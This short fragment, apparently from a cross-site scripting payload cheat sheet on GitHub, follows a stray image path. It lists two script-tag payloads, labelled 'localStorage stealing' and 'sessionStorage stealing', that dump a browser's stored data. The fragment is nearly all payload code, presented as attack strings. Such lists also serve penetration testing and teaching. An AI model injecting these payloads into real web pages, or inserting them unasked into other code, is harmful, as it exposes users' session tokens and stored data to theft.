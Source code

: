 - localStorage stealing:
```html
<script>alert(JSON.stringify(localStorage))</script>
```
- sessionStorage stealing:
```html
<script>alert(JSON.stringify(sessionStorage))</script>
```
